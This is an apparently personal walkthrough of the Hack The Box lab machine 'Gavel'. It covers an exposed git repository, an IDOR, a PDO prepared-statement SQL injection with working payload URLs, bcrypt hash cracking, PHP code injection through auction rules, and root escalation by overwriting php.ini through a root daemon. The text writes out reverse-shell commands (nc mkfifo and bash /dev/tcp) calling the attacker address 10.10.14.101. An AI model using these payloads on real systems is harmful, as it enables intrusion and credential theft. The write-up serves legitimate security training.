


import ProfileHeader from '@site/src/components/ProfileHeader';
import pic from './gavelpfp.png';

<ProfileHeader image={pic} />


# Gavel

Machine IP: 10.129.144.17

Difficulty: Medium, OS: Linux, Creator: [Shadow21A](https://app.hackthebox.com/users/1317214)

## User

### Nmap Scan

We scan the target with nmap and get the following ports:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1f:de:9d:84:bf:a1:64:be:1f:36:4f:ac:3c:52:15:92 (ECDSA)
|_  256 70:a5:1a:53:df:d1:d0:73:3e:9d:90:ad:c1:aa:b4:19 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://gavel.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: gavel.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We see there is a virtual host: **gavel.htb** so we add it to our /etc/hosts and visit the website.

### HTTP



The site seems to be an online auction house. It is probably mainly a php site judging from the individual sites (e.g. [http://gavel.htb/register.php](http://gavel.htb/register.php)).

If you make an account you are given 50.000 coins which you can use in the auction house to bid on items which then go in your inventory if you win the auction.

If we run gobuster we get the following output:

```bash
/.git/HEAD            (Status: 200) [Size: 23]
/.htpasswd            (Status: 403) [Size: 274]
/.htaccess            (Status: 403) [Size: 274]
/.hta                 (Status: 403) [Size: 274]
/admin.php            (Status: 302) [Size: 0] [--> index.php]
/assets               (Status: 301) [Size: 307] [--> http://gavel.htb/assets/]
/includes             (Status: 301) [Size: 309] [--> http://gavel.htb/includes/]
/index.php            (Status: 200) [Size: 13959]
/rules                (Status: 301) [Size: 306] [--> http://gavel.htb/rules/]
/server-status        (Status: 403) [Size: 274]
```

We see we get a 200 status code on /.git/HEAD so we use git-dumper to get the repo:

```bash
mkdir git
git-dumper http://gavel.htb/ git
```

After it finishes, we get the repo in our `git` folder.

This is the content:

```bash
┌──(kali㉿kali)-[~/…/Machines/Medium/Gavel/git]
└─$ ls -la
total 96
drwxrwxr-x 6 kali kali  4096 Nov 30 07:32 .
drwxrwxr-x 3 kali kali  4096 Nov 30 07:31 ..
-rwxrwxr-x 1 kali kali  8820 Nov 30 07:32 admin.php
drwxrwxr-x 6 kali kali  4096 Nov 30 07:32 assets
-rwxrwxr-x 1 kali kali  8441 Nov 30 07:32 bidding.php
drwxrwxr-x 7 kali kali  4096 Nov 30 07:32 .git
drwxrwxr-x 2 kali kali  4096 Nov 30 07:32 includes
-rwxrwxr-x 1 kali kali 14520 Nov 30 07:32 index.php
-rwxrwxr-x 1 kali kali  8384 Nov 30 07:32 inventory.php
-rwxrwxr-x 1 kali kali  6408 Nov 30 07:32 login.php
-rwxrwxr-x 1 kali kali   161 Nov 30 07:32 logout.php
-rwxrwxr-x 1 kali kali  7058 Nov 30 07:32 register.php
drwxrwxr-x 2 kali kali  4096 Nov 30 07:32 rules

```

Inside the `includes` folder there is a file called config.php. Reading this gives us credentials to a database:

```bash
┌──(kali㉿kali)-[~/…/Medium/Gavel/git/includes]
└─$ cat config.php  
<?php

define('DB_HOST', 'localhost');
define('DB_NAME', 'gavel');
define('DB_USER', 'gavel');
define('DB_PASS', 'gavel');

define('ROOT_PATH', dirname(__DIR__));

$basePath = rtrim(dirname($_SERVER['SCRIPT_NAME']), '/');
define('BASE_URL', $basePath);
define('ASSETS_URL', $basePath . '/assets');

```

If we analyze `inventory.php` carefully, we can find 2 vulnerabilities. 1 which is relatively easy to find, and one which is pretty difficult to spot. The snippet we should be looking at is the following:

```php
[--SNIP--]
$sortItem = $_POST['sort'] ?? $_GET['sort'] ?? 'item_name';
$userId = $_POST['user_id'] ?? $_GET['user_id'] ?? $_SESSION['user']['id'];
$col = "`" . str_replace("`", "", $sortItem) . "`";
$itemMap = [];
$itemMeta = $pdo->prepare("SELECT name, description, image FROM items WHERE name = ?");
try {
    if ($sortItem === 'quantity') {
        $stmt = $pdo->prepare("SELECT item_name, item_image, item_description, quantity FROM inventory WHERE user_id = ? ORDER BY quantity DESC");
        $stmt->execute([$userId]);
    } else {
        $stmt = $pdo->prepare("SELECT $col FROM inventory WHERE user_id = ? ORDER BY item_name ASC");
        $stmt->execute([$userId]);
    }
    $results = $stmt->fetchAll(PDO::FETCH_ASSOC);
} catch (Exception $e) {
    $results = [];
}
foreach ($results as $row) {
    $firstKey = array_keys($row)[0];
    $name = $row['item_name'] ?? $row[$firstKey] ?? null;
    if (!$name) {
        continue;
    }
    $meta = [];
    try {
        $itemMeta->execute([$name]);
        $meta = $itemMeta->fetch(PDO::FETCH_ASSOC);
    } catch (Exception $e) {
        $meta = [];
    }
    $itemMap[$name] = [
        'name' => $name ?? "",
        'description' => $meta['description'] ?? "",
        'image' => $meta['image'] ?? "",
        'quantity' => $row['quantity'] ?? (is_numeric($row[$firstKey]) ? $row[$firstKey] : 1)
    ];
}
[--SNIP--]
```

The fields that are shown later in the HTML are the `name` ,  `description` , `image`  and `quantity` of each item in the `itemMap` array. 

The first vulnerability is IDOR and is located in this snippet:

```php
[--SNIP--]
$userId = $_POST['user_id'] ?? $_GET['user_id'] ?? $_SESSION['user']['id'];
[--SNIP--]
$stmt = $pdo->prepare("SELECT item_name, item_image, item_description, quantity FROM inventory WHERE user_id = ? ORDER BY quantity DESC");
$stmt->execute([$userId]);
# Or in the else statement:
$stmt = $pdo->prepare("SELECT $col FROM inventory WHERE user_id = ? ORDER BY item_name ASC");
$stmt->execute([$userId]);
[--SNIP--]
```

Basically, the code will first try to read `userId` from a POST request’s parameter. If it can’t find one, it will try to read it from the URL parameter and if it isn’t entered there it ends up using the user’s ID which it gets from the session. Therefore, we can visit [http://gavel.htb/inventory.php?user_id=1](http://gavel.htb/inventory.php?user_id=1) or any other ID to view the inventory of that user. Using that we can see there is only one user other than the ones we create, who has user ID 1, but his inventory is empty so that isn’t really too useful.

The second and more useful vulnerability is a hidden SQLi in a PDO (PHP Data Object) prepared statement.

https://slcyber.io/research-center/a-novel-technique-for-sql-injection-in-pdos-prepared-statements/

```php
$stmt = $pdo->prepare("SELECT $col FROM inventory WHERE user_id = ? ORDER BY item_name ASC");
$stmt->execute([$userId]);
```

This gets executed as long as the value of the sort parameter is not `quantity` . Basically, PDO’s prepared statements don’t emulate MySQL’s prepared statement unless the developer explicitly disables `PDO::ATTR_EMULATE_PREPARES` . Otherwise, PDO will just do the escaping itself:

```php
for (char in stmt) {
	if (char is '?' or ':') {
		replace with escaped bound param
	}
}
```

(The actual MySQL parser is available here):

https://github.com/php/php-src/blob/master/ext/pdo_mysql/mysql_sql_parser.re

The above article by Adam Kues is very insightful, so instead of explaining it here, I’ll leave understanding this article as an exercise to the reader.


We get a final payload that works:

```php
/inventory.php?user_id=x`+FROM+(SELECT+table_name+AS+`'x`+from+information_schema.tables)y;--+-&sort=\?--+-%00
```

Which gives us all tables


Likewise, to view all usernames:

```basic
http://gavel.htb/inventory.php?user_id=x`+FROM+(SELECT+username+AS+`%27x`+from+users)y;--+-&sort=\?--+-%00
```


We can see there is a user called “auctioneer”.

and if we select passwords:


The second is my hash (which if cracked results to `password` , I know very secure). The first hash is the hash that belongs to `auctioneer` .

```bash
hashcat '$2y$10$MNkDHV6g16FjW/lAQRpLiuQXN4MVkdMuILn0pLQlC2So9SgH5RTfS' \
~/Desktop/rockyou.txt -m 3200
```

Note: Mode 3200 is Bcrypt Blowfish mode, which is PASSWORD_DEFAULT by PHP which is the hashing algorithm that is used as we can see in `register.php`

```php
**$hash = password_hash($password, PASSWORD_DEFAULT);**
                $createdAt = date('Y-m-d H:i:s');
                $money = 50000;

                $stmt = $pdo->prepare("INSERT INTO users (username, password, role, created_at, money) VALUES (:username, :password, :role, :created_at, :money)");
                $stmt->execute([
                    'username' => $username,
                    'password' => $hash,
                    'role' => 'user',
                    'created_at' => $createdAt,
                    'money'    => $money,
                ]);

```

This way we can crack it and get the password for auctioneer: midnight1

### Auctioneer

If we log in as auctioneer, there is a new tab available for us, the Admin Panel:


Here, we can see that we can edit rules and messages.

In `bid_handler` there is the following code snippet:

```php
try {
    if (function_exists('ruleCheck')) {
        runkit_function_remove('ruleCheck');
    }
    **runkit_function_add('ruleCheck', '$current_bid, $previous_bid, $bidder', $rule);**
    error_log("Rule: " . $rule);
    $allowed = ruleCheck($current_bid, $previous_bid, $bidder);
} catch (Throwable $e) {
    error_log("Rule error: " . $e->getMessage());
    $allowed = false;
}
```

Notice that in `runkit_function_add` , the rule variable is being directly executed as PHP code. 

We can edit rules and messages for current auctions from the admin panel. If we set the rule of an auction to a reverse shell payload, we can get a shell on the target. After trying out a few different reverse shell payloads, we finally got one that works:

```php
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.101 1234 >/tmp/f"); return true;
```

Note: Without the `return true;` at the end we will get 2 reverse shell connections

Now all that’s left is to start penelope and run it, so we need to bid on that auction. If we input any valid bid over the current one, we get a connection on our listener and we have a shell on the target as `www-data`

As www-data, we can now `su - auctioneer` and enter the password we found `midnight1` and get auctioneer and also user flag.

## PrivEsc

It is worth noting that auctioneer is in the `gavel-seller` group. If we run linpeas, we see that in the running processes there is this line:

```bash
root        1014  0.0  0.0  19128  3880 ?        Ss   17:44   0:00 /opt/gavel/gaveld
```

If we go to gaveld, we see it is a binary. There are some strings worth noting, for example

```bash
[31mYou are not authorized. Make sure your user belongs to the gavel-seller group.
```

There is also a php.ini file in the .config folder:

```bash
engine=On
display_errors=On
display_startup_errors=On
log_errors=Off
error_reporting=E_ALL
open_basedir=/opt/gavel
memory_limit=32M
max_execution_time=3
max_input_time=10
disable_functions=exec,shell_exec,system,passthru,popen,proc_open,proc_close,pcntl_exec,pcntl_fork,dl,ini_set,eval,assert,create_function,preg_replace,unserialize,extract,file_get_contents,fopen,include,require,require_once,include_once,fsockopen,pfsockopen,stream_socket_client
scan_dir=
allow_url_fopen=Off
allow_url_include=Off

```

This seems to disable functions that could get us a shell. We know gaveld is being ran as root, but we can’t execute or write to it, so our only hope is to bring the binary to our machine and analyse it with Ghidra.

Here’s an interesting pseudo-code snippet:

```c
  __fd = socket(1,1,0);
  if (__fd < 0) {
    perror("socket");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  unlink("/var/run/gaveld.sock");
  local_3b = 0;
  local_a8[0].sa_family = 1;
  strncpy(local_a8[0].sa_data,"/var/run/gaveld.sock",0x6b);
  iVar2 = bind(__fd,local_a8,0x6e);
  if (iVar2 < 0) {
    perror("bind");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  iVar2 = listen(__fd,0x10);
```

Gaveld is creating a socket in /var/run/gaveld.sock and listening to it. Meaning, anything sent to that socket will be executed by gaveld as root.

If we look for binaries owned by our group (gavel-seller) with
`find / -group gavel-seller 2>/dev/null` we can find a new binary: 

```bash
auctioneer@gavel:/opt/gavel$ find / -group gavel-seller 2>/dev/null
/run/gaveld.sock
/usr/local/bin/gavel-util
```

If we look for strings in that `gavel-util` binary, we spot a mention of `/var/run/gaveld.sock` , showing that it is communicating to gaveld (which runs as root) through the socket.

### Understanding the binaries

The help menu is the following:

```bash
auctioneer@gavel:/usr/local/bin$ gavel-util 
Usage: gavel-util <cmd> [options]
Commands:
  submit <file>           Submit new items (YAML format)
  stats                   Show Auction stats
  invoice                 Request invoice
```

if we give it a random yaml:

```bash
auctioneer@gavel:~$ /usr/local/bin/gavel-util submit test.yaml 
YAML missing required keys: name description image price rule_msg rule 
```

Let’s see what gavel-util does:
In main(), we see that the function `connect_sock()` is called:

```c
iVar2 = connect_sock();
```

The connect_sock() function looks like this:

```c
int connect_sock(void)

{
  int __fd;
  int iVar1;
  int iVar2;
  long in_FS_OFFSET;
  undefined1 local_88 [18];
  undefined8 local_76;
  undefined8 local_6e;
  undefined1 local_66 [16];
  undefined1 local_56 [16];
  undefined1 local_46 [16];
  undefined1 local_36 [16];
  undefined8 local_26;
  undefined2 local_1e;
  undefined1 local_1c;
  undefined1 local_1b;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  __fd = socket(1,1,0);
  if (__fd < 0) {
    iVar2 = -1;
  }
  else {
    local_1e = 0;
    **local_88[2] = '/';
    local_88[3] = 'v';
    local_88[4] = 'a';
    local_88[5] = 'r';
    local_88[6] = '/';
    local_88[7] = 'r';
    local_88[8] = 'u';
    local_88[9] = 'n';**
    **local_88._10_8_ = 0x2e646c657661672f;**
    local_1b = 0;
    local_88._0_2_ = 1;
    **local_76 = 0x6b636f73;**
    local_6e = 0;
    local_26 = 0;
    local_1c = 0;
    local_66 = (undefined1  [16])0x0;
    local_56 = (undefined1  [16])0x0;
    local_46 = (undefined1  [16])0x0;
    local_36 = (undefined1  [16])0x0;
    **iVar1 = connect(__fd,(sockaddr *)local_88,0x6e);**
    iVar2 = __fd;
    if (iVar1 < 0) {
      iVar2 = -1;
      close(__fd);
    }
  }
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return iVar2;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

As we can see, it is saving /var/run/gaveld.sock (the socket address) in `local_88` and then connecting to it

<aside>
💡

Note: 0x2e646c657661672f which is the value stored in the final local_88 part is the 
Little-Endian encoding for `/gaveld.` and 0x6b636f73 which is the value stored in local_76 is the Little-Endian encoding for `sock`, so all together it would be `/var/run/gaveld.sock` 

</aside>


So we can confirm that gavel-utils is connecting to the socket that gaveld is creating and listening to. 

Let’s see what it is doing when a user uses the submit subcommand:

```c
int main(int param_1,char *param_2)

{
  int iVar1;
  int iVar2;
  FILE *__stream;
  void *pvVar3;
  size_t sVar4;
  undefined8 uVar5;
  undefined8 uVar6;
  char *pcVar7;
  ulong __size;
  char *pcVar8;
  long in_FS_OFFSET;
  stat local_d8;
  long local_40;
  
  local_40 = *(long *)(in_FS_OFFSET + 0x28);
  if (param_1 < 2) {
LAB_0010173c:
    iVar1 = 1;
    __fprintf_chk(stderr,1,&DAT_00102128,*(undefined8 *)param_2);
  }
  else {
    pcVar7 = *(char **)(param_2 + 8);
    pcVar8 = "submit";

    /* ---- SUBCOMMAND DISPATCH: check if argv[1] == "submit" ---- */
    iVar1 = strcmp(pcVar7,"submit");

    if (iVar1 == 0) {               /* ---- BEGIN: submit handler ---- */

      /* no filename? */
      if (param_1 == 2) {
        iVar1 = 1;
        fwrite(&DAT_001021e8,1,0x27,stderr);
        goto LAB_00101616;
      }

      /* get filename */
      param_2 = *(char **)(param_2 + 0x10);

      /* stat the file */
      iVar2 = stat(param_2,&local_d8);
      iVar1 = 0;
      if (iVar2 < 0) {
        perror("stat");
        goto LAB_00101771;
      }

      /* ensure regular file */
      if ((local_d8.st_mode & 0xf000) != 0x8000) {
        __fprintf_chk(stderr,1,"not a regular file: %s\n",param_2);
        goto LAB_00101771;
      }

      /* size check */
      if (0xa00000 < local_d8.st_size) {
        fwrite("file too large\n",1,0xf,stderr);
        goto LAB_00101771;
      }

      /* read file */
      __stream = fopen(param_2,"rb");
      if (__stream == (FILE *)0x0) goto LAB_0010192a;
      __size = local_d8.st_size & 0xffffffff;
      pvVar3 = malloc(__size);
      if (pvVar3 == (void *)0x0) {
        fclose(__stream);
        goto LAB_00101771;
      }
      sVar4 = fread(pvVar3,1,__size,__stream);
      if (__size != sVar4) {
        fclose(__stream);
        free(pvVar3);
        goto LAB_00101771;
      }
      fclose(__stream);

      /* connect to socket */
      iVar2 = connect_sock();
      if (iVar2 < 0) {
LAB_00101915:
        do {
          die("failed to connect to %s\n","/var/run/gaveld.sock");
LAB_0010192a:
          perror("fopen");
LAB_00101771:
          die("failed to read %s\n",param_2);
LAB_00101782:
          iVar2 = connect_sock();
        } while (iVar2 < 0);

        /* construct empty submit (no file) */
        uVar5 = json_object_new_object();
        uVar6 = json_object_new_string(pcVar8);   /* "submit" */
        json_object_object_add(uVar5,&DAT_001020ce,uVar6);
        uVar6 = json_object_new_string("");
        json_object_object_add(uVar5,"flags",uVar6);
        uVar6 = json_object_new_int(0);
        json_object_object_add(uVar5,"content_length",uVar6);
        uVar6 = collect_env();
        json_object_object_add(uVar5,&DAT_001020ef,uVar6);

        send_header_and_content(iVar2,uVar5,0,0);
        json_object_put(uVar5);

        pcVar7 = (char *)recv_response(iVar2);
        if (pcVar7 != (char *)0x0) goto LAB_00101727;
        fwrite(&DAT_00102106,1,0x15,stderr);
      }
      else {
        /* construct full submit request with file contents */
        uVar5 = json_object_new_object();
        uVar6 = json_object_new_string("submit");
        json_object_object_add(uVar5,&DAT_001020ce,uVar6);

        uVar6 = json_object_new_string(param_2);  /* filename */
        json_object_object_add(uVar5,"filename",uVar6);

        uVar6 = json_object_new_string("");
        json_object_object_add(uVar5,"flags",uVar6);

        uVar6 = json_object_new_int(local_d8.st_size & 0xffffffff);
        json_object_object_add(uVar5,"content_length",uVar6);

        uVar6 = collect_env();
        json_object_object_add(uVar5,&DAT_001020ef,uVar6);

        send_header_and_content(iVar2,uVar5,pvVar3,local_d8.st_size & 0xffffffff);
        json_object_put(uVar5);

        free(pvVar3);

        pvVar3 = (void *)recv_response(iVar2);
        if (pvVar3 == (void *)0x0) {
          fwrite(&DAT_00102210,1,0x21,stderr);
        }
        else {
          __printf_chk(1,&DAT_001020f3,pvVar3);
          free(pvVar3);
        }
      }

      /* ---- END: submit handler ---- */
    }
    else {
      /* other subcommands */
      pcVar8 = "stats";
      iVar1 = strcmp(pcVar7,"stats");
      if (iVar1 == 0) goto LAB_00101782;

      pcVar8 = "invoice";
      iVar1 = strcmp(pcVar7,"invoice");
      if (iVar1 != 0) goto LAB_0010173c;
 [--SNIP--]
```

That is a long snippet, but basically if it is provided a file, it will create a JSON that looks like this:

```json
{
    "action": "submit",
    "filename": "<filename>",
    "flags": "",
    "content_length": <file_size>,
    "environment": <collect_env() output>
}
```

And call `send_header_and_content(fd, header_json, file_data, file_size)` (where fd is the socket connection). Let’s see what `send_header_and_content()` does:

```c
void send_header_and_content(undefined4 sock_fd, undefined8 json_obj, undefined8 content_ptr, uint content_len)
{
    // Convert the JSON object to a string
    char *__s = (char *)json_object_to_json_string_ext(json_obj, 0); 
    
    // Get the length of the JSON string
    size_t sVar2 = strlen(__s); 
    
    // Convert the length to big-endian format (network byte order)
    uint local_34 = (uint)sVar2;
    local_34 = (local_34 >> 24) | ((local_34 & 0xff0000) >> 8) | ((local_34 & 0xff00) << 8) | (local_34 << 24);
    
    // Send the 4-byte JSON length first
    long lVar3 = writen(sock_fd, &local_34, 4);  
    if (lVar3 != 4) die("send hdrlen failed\n");
    
    // Send the JSON string itself
    ulong uVar4 = writen(sock_fd, __s, sVar2 & 0xffffffff);  
    if (uVar4 != (sVar2 & 0xffffffff)) die("send hdr failed\n");
    
    // If there is content (like a file), send that too
    if (content_len != 0) {
        uVar4 = writen(sock_fd, content_ptr, (ulong)content_len); 
        if (uVar4 != content_len) die("send content failed\n");
    }

    // Function ends normally here if all writes succeed
}
```

The added comments should help out with understanding the code. It pretty much converts the JSON to string, gets its length, sends the 4 first bytes (the length) to the socket and then sends the rest of the string to the socket. Now we know what gavel-utils is doing, so let’s go back to gaveld to see what it is doing with that information.

We see that it is calling `handle_conn();` at the end of the main() function, so let’s analyze that. 

```c
    ppVar5 = getpwuid(*(__uid_t *)(puVar23 + -0x13b0));
    if (ppVar5 != (passwd *)0x0) {
      *(undefined8 *)(puVar23 + -0x1410) = 0x1033e3;
      pgVar6 = getgrnam("gavel-seller");
      if (pgVar6 != (group *)0x0) {
        if (pgVar6->gr_gid == ppVar5->pw_gid) {
```

First, we see that it is checking if the user belongs to the gavel-sellers group and only then proceeds.

```c
__tp = (timespec *)(puVar23 + -0x1338);
**lVar7 = readn(param_1,__tp,4);**
[--SNIP--]
pvVar8 = malloc((ulong)(uVar21 + 1));
**uVar9 = readn(param_1, pvVar8, (ulong)uVar21);**
*(undefined1 *)((long)pvVar8 + uVar9) = 0;
lVar7 = json_tokener_parse(pvVar8);
```

We see it reads the first 4 bytes from the socket, which we previously discovered is the length of the JSON string. Then it allocates a buffer of that size (pvVar8) and reads the actual payload (with readn)

```c
iVar3 = strcmp(pcVar10,"rule");
if (iVar3 == 0) {
if (pcVar25 != (char *)0x0) {
 *(undefined8 *)(puVar23 + -0x1410) = 0x103c73;
sVar14 = strlen(pcVar25);
if (0x400 < sVar14) {
 pvVar8 = *(void **)(puVar23 + -0x13e8);
 param_1 = *(int *)(puVar23 + -0x13e0);
 *(undefined8 *)(puVar23 + -0x1410) = 0x1042d7;
 fwrite("rule too long\n",1,0xe,stderr);
 goto LAB_00103ac0;
}
__size = sVar14 + 1;
*(undefined8 *)(puVar23 + -0x1410) = 0x103c8e;
pcVar16 = (char *)malloc(__size);
[--SNIP--]
__strncat_chk(puVar23 + 0x6ee8,"rule ",0x7f - sVar14,0x80);
iVar2 = php_safe_run(*(undefined8 *)(puVar23 + -0x1400),pcVar16,puVar23 + 0x7fe8,0x4000);
```

In the upper snippet, `pcVar16` is being set as a buffer whose size is the same as the “rule” size. Later in the code, the actual value of “rule” is being saved inside `pcVar16` which is then executed with `php_safe_run()` . We see that `pcVar16` is the second parameter of `php_safe_run()` so let’s see what that function is doing:

```c
json_object_object_get_ex(param_1, &DAT_00105004, &local_3100);
if (local_3100 == 0 || !json_object_is_type(local_3100,4) || 
    !json_object_object_get_ex(local_3100,"RULE_PATH",&local_30f8)) {
    strncpy(local_3048,"/opt/gavel/.config/php/php.ini",0x1000);
} else {
    pcVar3 = json_object_get_string(local_30f8.rlim_cur);
    if (pcVar3 && *pcVar3 != '\0' && stat(pcVar3,...)==0 && access(pcVar3,4)==0)
        strncpy(local_3048, pcVar3, 0x1000);
}
```

First it looks for the php.ini config. It looks for the `RULE_PATH` in JSON, and if there’s no valid ones (or none at all) it defaults to `/opt/gavel/.config/php/php.ini` . If one is present, it uses that as the config.

```c
__snprintf_chk(local_2048, 0x2000, ...,
    "function __sandbox_eval() {...%s}; $res = __sandbox_eval(); if(!is_bool($res)){echo 'SANDBOX_RETURN_ERROR';} else if($res){echo 'ILLEGAL_RULE';}",
    param_2
);
```

It then generates a PHP function called `__sandbox_eval()` that embeds `param_2` . This will output SANDBOX_RETURN_ERROR or ILLEGAL_RULE if something goes wrong.

<aside>
💡

Note: we saw earlier that pcVar16 was the second argument in the php_safe_run() function, and its contents were the contents of the “rule” section, confirming that the binary will try to execute the content of “rule”.

</aside>

Then the binary runs that code with `/usr/bin/php` . Meaning, we can craft a malicious YAML file and pass it in the binary to execute any commands as root.

### Exploiting gavel-utils

First let’s get rid of that php.ini file. We see in the disabled functions that while `file_get_contents` is blacklisted, `file_put_contents` is not. 

```bash
php.ini:

engine=On
display_errors=On
display_startup_errors=On
log_errors=Off
error_reporting=E_ALL
open_basedir=/opt/gavel
memory_limit=32M
max_execution_time=3
max_input_time=10
disable_functions=exec,shell_exec,system,passthru,popen,proc_open,proc_close,pcntl_exec,pcntl_fork,dl,ini_set,eval,assert,create_function,preg_replace,unserialize,extract,file_get_contents,fopen,include,require,require_once,include_once,fsockopen,pfsockopen,stream_socket_client                                                                                                                                              
scan_dir=                                                                                                                                                                                                         
allow_url_fopen=Off                                                                                                                                                                                               
allow_url_include=Off
```

We can use that to overwrite php.ini into one that won’t block us from running commands:

```yaml
overwrite.yaml:

name: Going down
description: get rekt lol
image: fake.jpg
price: 100
rule_msg: Overwrite config
rule: "file_put_contents('/opt/gavel/.config/php/php.ini', 'engine=Off\ndisplay_errors=Off\ndisable_functions=\nopen_basedir=/'); return true;"
```

Note: without the `return true;` , it will give us an error, that’s why we add it at the end.

If we run it with `gavel-utils submit overwrite.yaml` , we get a success message, and then if we
`cat /opt/gavel/.config/php/php.ini` we can see that we changed it:

```yaml
auctioneer@gavel:~$ cat /opt/gavel/.config/php/php.ini                                                                                                                                                            
engine=Off                                                                                                                                                                                                        
display_errors=Off                                                                                                                                                                                                
disable_functions=
```

Now, we can easily get a reverse shell since there are no blacklisted functions:

```yaml
revshell.yaml:

name: Test Item
description: Test Description
image: test.jpg
price: 100
rule_msg: Reverse shell
rule: "shell_exec('bash -c \"bash -i >& /dev/tcp/10.10.14.101/4444 0>&1\" &'); return true;"
```

Run a listener on port 4444 and run it with `gavel-utils submit revshell.yaml` and boom, we get a reverse shell as root!

There are multiple other ways to get root. Since we have access to `file_put_content` we can change /etc/shadow, /etc/passwd, add ourselves to the root’s SSH authorized keys, change root’s password, or even make a new php.ini and set the environment variable that is required for the binary.

Didn’t enjoy that box too much, security for user was basically there for decor and trickery. Root had RE which I did not enjoy but oh well it is what it is.

[Owned Gavel from Hack The Box!](https://labs.hackthebox.com/achievement/machine/2397718/811)
